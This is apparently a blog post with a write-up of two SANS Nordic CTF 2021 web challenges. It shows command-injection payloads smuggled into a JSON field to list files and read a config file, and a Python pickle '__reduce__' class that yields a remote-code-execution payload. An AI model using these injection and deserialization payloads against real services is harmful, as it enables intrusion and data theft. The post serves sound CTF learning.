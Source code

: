 ```yaml
---
layout: post
title:  "Writeup of a few of the challenges from SANS Nordic CTF 2021"
date:   2021-04-21 12:00:00 +0100
categories: python web-magic ctf
---
```


SANS arranged the Nordic CTF 2021 and did a great job of providing different challenges in categories like web and crypto.

I will describe short how some of the web was solved.

First the tools you need:

* A browser with decent development tools. Personally I prefer Chrome (or Chromium) but Firefox is also great.
* A command like like on Linux or WSL on Windows
* Possibility to do some scripting in Python

# The IoT coffee machine

The coffee machine just keeps making coffee but will only make some variants of coffee.

Inspecting the network traffic reveals that it makes an XHR request with the following payload:

{% highlight python %}
{"coffee": "Espresso"}
{% endhighlight %}

First was tried to change the payload to a list.

Payload:
{% highlight python %}
{"coffee": ["Espresso"]}
{% endhighlight %}

Result:
{% highlight python %}
{"errorMessage": "can only concatenate str (not \"list\") to str", "errorType": "TypeError", "stackTrace": ["  File \"/var/task/lambda_function.py\", line 23, in lambda_handler\n    'body': command(event['coffee'])\n", "  File \"/var/task/lambda_function.py\", line 13, in command\n  combined = filtering(params)\n", "  File \"/var/task/lambda_function.py\", line 10, in filtering\n    return \"./coffeeController --type=\" + params\n"]}
{% endhighlight %}

Notice the last part. That looks like a command that can be run.

TIP: You can use the developer tool to get the request as a curl command to manipulate as you like.

Trying to get a command to run using the following payload:

{% highlight python %}
{"coffee":"Espresso& ls"}
{% endhighlight %}

The system would not accept ; as delimeter between command.

That payload resulted in this:

{% highlight python %}
{"statusCode": 200, "body": "Making Espresso...\ncoffeeController\nconfig_ssh.txt\n\n"}
{% endhighlight %}

From here is there only one payload left:

{% highlight python %}
{"coffee":"Espresso& cat config_ssh.txt"}
{% endhighlight %}

With the result:

{% highlight python %}
{"statusCode": 200, "body": "Making Espresso...\nFlag: IOTXXXXXXXnt\n\n"}
{% endhighlight %}

## The 1000 pts web

The Bonus x web challenge was a fun little challenge where you entered your named, reloaded the page and it shows your name.

Inspecting the traffic resulted in identifing that the client sent a python pickled dict to the server with the username in.

The following python code was used to generate some eval code that the server would evaluate and return the flag as name.

{% highlight python %}
import pickle
import base64

flag = 'FALSE'

class RCE:
    def __reduce__(self):
        return (eval,('{"name":flag}',))

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
{% endhighlight %}

This results in the following payload for the server:

{% highlight python %}
{"userdata":"gANjYnVpbHRpbnMKZXZhbApxAFgNAAAAeyJuYW1lIjpmbGFnfXEBhXECUnEDLg=="}
{% endhighlight %}

Sending this data will result in the eval being run and the following result from the server:

{% hightlight python %}
{"statusCode": 200, "body": "Hello, Flag: suPERXXXXXXXX02891", "headers": {"Access-Control-Allow-Origin": "*"}}
{% endhightlight %}
